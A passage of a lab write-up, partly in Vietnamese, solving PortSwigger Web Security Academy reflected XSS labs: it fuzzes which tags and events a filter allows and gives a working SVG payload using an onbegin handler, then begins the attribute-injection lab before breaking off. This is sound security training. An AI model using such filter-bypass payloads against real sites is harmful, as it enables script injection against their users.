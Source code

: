 ***

## 8. Lab: Reflected XSS with some SVG markup allowed

* Content:
```
This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events.

To solve the lab, perform a cross-site scripting attack that calls the alert() function.
```
* Exploit:

Tương tự lab trước, xác định các tags không bị blocks

<img width="426" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/5a5db289-ca46-4853-a5c4-e3b863773cd9">

=> Xác định thẻ `svg` không bị block.
Tiếp tục thay payload sau vào phần search trong Intruder để test xem Events nào không bị chặn

<img width="580" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/dd8e463b-2b71-4bed-84b6-8a75164a42ae">

Xác nhận thấy event `onbegin` không bị filter chặn

<img width="421" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/cbe8234a-00bb-4e1a-b0f8-ff70017e18be">

=> Sử dụng payload như sau:

`https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E`

Decode: 

`https://YOUR-LAB-ID.web-security-academy.net/?search="><svg><animatetransform onbegin=alert(1)>`

Lab Solved!

<img width="578" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/904a0330-1565-406f-bfd2-e92c3a6ae1ce">

***

## 9. Lab: Reflected XSS into attribute with angle brackets HTML-encoded

* Content:
```
This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function.
```
* Exploit:

Search và theo dõi Kết quả trả về hiển thị bên phía trình duyệt trong thẻ input

`<input type=text placeholder='Search the blog...' name=search value="ndkhai">`
